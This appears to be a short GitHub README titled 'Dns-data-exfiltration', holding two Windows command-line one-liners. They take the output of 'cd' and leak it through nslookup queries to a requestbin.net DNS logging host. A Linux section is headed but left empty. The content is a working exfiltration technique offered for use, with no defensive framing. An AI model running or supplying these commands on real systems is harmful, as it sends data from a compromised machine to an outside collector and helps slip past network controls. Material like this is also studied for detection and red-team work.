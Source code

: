 # Dns-data-exfiltration

```
## Windows
for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net)

## Linux

```
